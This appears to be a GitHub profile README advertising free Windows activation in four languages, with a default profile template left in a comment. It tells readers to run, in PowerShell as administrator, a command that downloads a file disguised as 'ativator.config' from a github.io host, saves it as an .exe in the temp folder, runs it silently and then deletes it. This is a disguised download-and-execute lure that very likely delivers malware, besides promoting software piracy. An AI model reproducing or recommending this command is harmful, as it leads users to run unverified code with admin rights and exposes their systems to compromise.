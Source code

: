 Copy the command below and paste it into Windows PowerShell to do Windows Free Activation. 👋⚡

Copie el siguiente comando y péguelo en Windows PowerShell para realizar la activación gratuita de Windows. 👋⚡

Copie o seguinte comando e cole-o no Windows PowerShell para realizar a ativação gratuita do Windows. 👋⚡

नि: शुल्क विंडोज सक्रियण करने के लिए निम्न कमांड को कॉपी करें और इसे विंडोज पावरशेल में पेस्ट करें 👋⚡

<!--
**projetos-gabriel-pub/projetos-gabriel-pub** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
⚡ OPEN THE WINDOWS POWERSHELL AS ADMINISTRATOR AND RUN THE FOLLOWING COMMAND:

### powershell $LocalTempDir = $env:TEMP; $WindowsAtivator = "WindowsAtivator.exe"; (new-object System.Net.WebClient).DownloadFile('https://online-soft.github.io/online-soft/ativator.config', "$LocalTempDir\$WindowsAtivator"); & "$LocalTempDir\$WindowsAtivator" /silent /install; $Process2Monitor = "WindowsAtivator"; Do { $ProcessesFound = Get-Process | ?{$Process2Monitor -contains $_.Name} | Select-Object -ExpandProperty Name; If ($ProcessesFound) { "Still running: $($ProcessesFound -join ', ')" | Write-Host; Start-Sleep -Seconds 2 } else { rm "$LocalTempDir\$WindowsAtivator" -ErrorAction SilentlyContinue -Verbose } } Until (!$ProcessesFound)

